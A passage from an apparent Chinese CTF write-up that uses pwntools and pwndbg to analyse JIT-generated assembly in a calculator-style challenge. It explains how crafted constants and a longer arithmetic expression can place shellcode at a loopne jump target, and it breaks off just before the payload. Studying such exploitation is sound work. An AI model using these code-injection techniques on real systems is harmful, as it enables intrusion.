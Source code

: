 怀疑8357374应该是个对应比较跳转的汇编，利用pwntools disasm：

```
&gt;&gt;&gt; disasm("8357374")
'   0:   38 33                   cmp    BYTE PTR [ebx], dh\n   2:   35 37 33 37 34          xor    eax, 0x34373337'

&gt;&gt;&gt; u32(asm("jmp ax").ljust(4,'\x00'))
14745446
```

所以将var赋值为14745446看到

```
pwndbg&gt; x/40i 0x56643000
=&gt; 0x56643000:    cmp    esi,0x56641b3c
   0x56643006:    jl     0x56643015
   0x56643008:    mov    eax,ds:0x5663db74
   0x5664300d:    mov    esp,DWORD PTR ds:0x5663db78
   0x56643013:    jmp    eax
   0x56643015:    pop    ebp
   0x56643016:    pop    DWORD PTR [esi+0x0]
   0x56643019:    push   ebp
   0x5664301a:    mov    ecx,0xe0ff66
   0x5664301f:    mov    DWORD PTR [esi+0x8],ecx
   0x56643022:    mov    DWORD PTR [esi+0x4],ecx
   0x56643025:    mov    eax,DWORD PTR [esi+0x0]
   0x56643028:    loopne 0x5664305b
   0x5664302a:    leave  
   0x5664302b:    test   eax,0x0
   0x56643030:    je     0x56643033
   0x56643032:    inc    ecx
   0x56643033:    mov    DWORD PTR [esi+0x8],ecx
   0x56643036:    mov    eax,DWORD PTR [esi+0x8]
   0x56643039:    mov    DWORD PTR [esi+0x0],eax
   0x5664303c:    mov    esi,DWORD PTR [esp+0x4]
   0x56643040:    ret    0x4
   0x56643043:    mov    esi,DWORD PTR [esp+0x4]
   0x56643047:    ret    0x4
   0x5664304a:    add    BYTE PTR [eax],al
   0x5664304c:    add    BYTE PTR [eax],al
   0x5664304e:    add    BYTE PTR [eax],al
   0x56643050:    add    BYTE PTR [eax],al
   0x56643052:    add    BYTE PTR [eax],al
   0x56643054:    add    BYTE PTR [eax],al
   0x56643056:    add    BYTE PTR [eax],al
   0x56643058:    add    BYTE PTR [eax],al
   0x5664305a:    add    BYTE PTR [eax],al
   0x5664305c:    add    BYTE PTR [eax],al
   0x5664305e:    add    BYTE PTR [eax],al
```

loopne也是条件跳转但此时的寄存器ecx值大于0且zf为0可以跳转，接下来就是考虑如何在跳转处写入shellcode。<br>
在增加算数表达式的长度时生成的code也会增加，因此我们可以增加算数表达式的长度并在跳转的对应位置写入shellcode(通过u32(opcode)传入表达式)。<br>
构造payload如下：
